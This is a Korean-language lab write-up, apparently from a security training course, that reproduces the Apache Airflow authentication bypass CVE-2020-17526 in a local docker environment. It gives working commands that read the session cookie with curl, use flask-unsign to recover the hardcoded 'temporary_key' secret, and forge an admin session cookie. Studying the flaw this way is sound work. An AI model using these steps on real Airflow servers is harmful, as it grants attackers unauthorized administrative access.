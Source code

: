 # Apache Airflow Authentication Bypass (CVE-2020-17526)

화이트햇스쿨 3기 32반 김나희

## 1. 요약
- Apache Airflow는 오픈소스 워크플로우 관리 플랫폼으로, 언제 어떤 작업을 실행할지 미리 정해 자동으로 돌려주는 프로그램이다. 기본적으로 인증 기능이 비활성화되어 있지만, 관리자가 webserver.authenticate=True로 활성화할 수 있다.
- Airflow 1.10.13 이전 버전에서는 세션 정보를 서명하는 데 사용되는 비밀 키가 temporary_key 라는 고정된 값으로 설정되어 있었다. 따라서 공격자가 이를 악용해 임의의 사용자로 가장하여 인증을 우회할 수 있는 취약점이 존재했다.

## 2. 환경 구성
- git clone https://github.com/umsienrt/kr-vulhub.git
- cd kr-vulhub/CVE-2020-17526
- docker compose run airflow-init
- docker compose up -d
- Flask Unsign 설치 → 세션 키 해독 용도


## 3. PoC
![img1](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img1.png?raw=true)
- http://your-ip:8080 으로 접속하면 로그인 페이지가 나온다.<br>
![img2](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img2.png?raw=true)
- curl -v http://localhost:8080/admin/airflow/login
- Set-Cookie→session에서 세션 키 정보를 알 수 있다.<br>
![img3](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img3.png?raw=true)
- 개발자 도구 → Application → Cookies → http://127.0.0.1:8080 에서 전체 세션 키 정보를 확인할 수 있다.<br>
![img4](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img4.png?raw=true)
- flask-unsign -u -c  세션 키 값
- flask-unsign을 이용해서 세션 키를 해독하면 ‘temporary key’ 가 나온다.<br>
![img5](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img5.png?raw=true)
- flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}”
- user_id가 1인 새 세션을 생성한다.<br>
![img6](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img6.png?raw=true)
- 개발자 도구에서 session의 value값에 앞서 새롭게 생성된 세션 값을 삽입한다.


## 결과
![img7](https://github.com/umsienrt/kr-vulhub/blob/main/CVE-2020-17526/img7.png?raw=true)

